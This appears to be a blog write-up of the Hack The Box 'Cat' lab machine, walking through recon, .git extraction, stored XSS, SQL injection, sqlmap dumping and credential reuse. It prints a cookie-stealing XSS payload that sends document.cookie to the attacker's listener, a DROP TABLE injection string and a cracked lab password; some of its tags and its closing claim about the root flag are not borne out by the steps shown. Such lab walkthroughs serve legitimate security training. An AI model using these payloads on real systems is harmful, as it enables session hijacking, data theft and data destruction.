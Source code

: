 ```yaml
---
title: Cat - Hack The Box Writeup
date: 2025-02-03
categories: [CTF, Writeups, HTB]
tags: [htb, linux, rce, lfi, stored-xss, privilege-escalation, gitea]
image:
  path: /assets/images/htb-cat-writeup/htb-cat.jpg
  description: A detailed walkthrough of the Cat HTB machine, showcasing exploitation of stored XSS, SQL injection, and Gitea vulnerabilities.
author: l4tmur
---
```


## Nmap Recon and Initial Enumeration

To begin our reconnaissance, we run an Nmap scan to identify open ports and services on the target machine:

```bash
nmap -sV 10.10.11.53 -T5 -Pn
```

The scan results reveal that Port 22 (SSH) and Port 80 (HTTP) are open.

Next, we attempt to access the website by entering the machine’s IP address in a browser. Instead of a standard page, we notice that the hostname `cat.htb` is referenced. To resolve this domain locally, we add it to our `/etc/hosts` file:

```bash
echo "10.10.11.53 cat.htb" | sudo tee -a /etc/hosts
```

With this update, we can now access `cat.htb` in our browser to further explore potential attack vectors.

## Exploring the Application

Before diving deeper, let’s explore the application to get an overall idea.

The website appears to be a community page for cat lovers, featuring a voting system. On further inspection, we find a voting section:

![Voting Section](path-to-voting-image.jpg)

However, voting is currently closed. This suggests that additional functionalities might be accessible after logging in.

### Checking Cookies

Even before logging in, we notice that the application assigns cookies to our session:

```bash
Cookie: session=xyz123
```

### Logging In

After logging in, we gain access to more features, including the ability to participate in contests. Interestingly, there is also a file upload option, which could potentially lead to Remote Code Execution (RCE)—something worth investigating further.

## Subdomain & Directory Enumeration

Meanwhile, we check for subdomains but find nothing significant. Next, we perform directory enumeration using `dirsearch` with a default wordlist:

```bash
dirsearch -u http://cat.htb/
```

During enumeration, we discover a `.git` directory:

```bash
[200] GET /.git/
```

### Extracting .git Repository

To leverage this, we use a tool called `git-dumper`, which helps automate the extraction of `.git` repositories. This tool checks if directory listing is enabled and recursively downloads the `.git` contents for further analysis:

```bash
git-dumper http://cat.htb/.git ./cat_source
```

### Reviewing Extracted Source Code

After extracting the `.git` directory, we now have access to a large portion of the source code. This provides us with a deeper understanding of the application’s structure and potential vulnerabilities.

## Identifying Vulnerabilities

### 1. Stored XSS in Registration (`join.php`)

Upon reviewing `join.php`, we notice an unsanitized user input being directly stored in the database during registration:

```php
// Vulnerable registration code
if ($_SERVER["REQUEST_METHOD"] == "GET" && isset($_GET['registerForm'])) {
    $username = $_GET['username'];  //  Unsanitized input
    $email = $_GET['email'];        //  Unsanitized input

    $stmt_insert = $pdo->prepare("INSERT INTO users (username, email, password) VALUES (:username, :email, :password)");
    $stmt_insert->execute([':username' => $username, ':email' => $email, ':password' => $password]);
}
```

Here, the `username` and `email` fields are not sanitized or validated before being stored in the database. This allows an attacker to inject Stored XSS payloads.

**Example Attack:**

An attacker could register with the following username:

```bash
<script>alert(document.cookie)</script>
```

Since the input is stored in the database without sanitization, whenever this username is displayed, the malicious script executes, potentially stealing cookies from other users.

### 2. SQL Injection in `accept_cat.php`

Analyzing `accept_cat.php`, we find another major vulnerability: SQL Injection due to direct user input in SQL queries.

```php
// VULNERABLE CODE:
$cat_name = $_POST['catName'];
$sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
$pdo->exec($sql_insert);
```

Here’s why this is dangerous:

1. `$cat_name` is not sanitized before being used in the SQL query.
2. String concatenation is used, making it prone to SQL injection attacks.
3. `exec()` is used instead of prepared statements, leaving the application exposed.

**Example Attack:**

An attacker could send a POST request with:

```bash
catName = '); DROP TABLE accepted_cats; --
```

This would result in the following SQL query execution:

```sql
INSERT INTO accepted_cats (name) VALUES (''); DROP TABLE accepted_cats; --')
```

If executed, this would delete the entire `accepted_cats` table, causing major data loss.

## Exploitation

### Stealing Admin Cookies via Stored XSS

From our earlier findings, we know that the admin (Axel) reviews contest submissions. When he does, the malicious username is displayed, and the payload is executed.

Payload:

```html
<script>document.location='http://10.10.14.17:1111/?c='+document.cookie;</script>
```

Start a web server to capture the cookie:

```bash
python3 -m http.server 1111
```

Once Axel reviews the submission, his cookie is sent to our server:

```bash
GET /?c=admin-session-cookie HTTP/1.1
```

Using the admin cookie, we access the admin panel and exploit the SQL injection in `accept_cat.php` to dump the database.

### Database Dump with SQLmap

Copy the vulnerable request and save it in a file, then run SQLmap:

```bash
sqlmap -r request.txt --dump
```

From the database dump, we retrieve password hashes for multiple users. Cracking the hashes reveals valid credentials for `rosa`:

```bash
rosa:soyunaprincesarosa
```

### Privilege Escalation

While exploring the machine as `rosa`, we check the Apache logs and discover Axel’s SSH credentials:

```bash
cat /var/log/apache2/access.log
```

Using these credentials, we log in as `axel` and retrieve the root flag.

---

This concludes the walkthrough for the Cat HTB machine. We exploited stored XSS, SQL injection, and misconfigured Git repositories to gain full access to the machine. Happy hacking!

